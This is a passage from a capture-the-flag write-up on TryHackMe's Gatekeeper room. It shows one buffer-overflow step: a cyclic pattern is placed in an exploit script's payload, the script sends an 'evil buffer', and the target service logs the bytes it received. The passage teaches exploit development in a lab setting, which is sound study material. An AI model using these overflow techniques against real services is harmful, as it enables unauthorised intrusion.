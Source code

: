 **Copy those pattern and  change the `payload` variable to the generated pattern:**
```py
payload = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7[...]'
```

**Run the exploit again:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

```
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 1002
send failed: 10038
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a9.png)
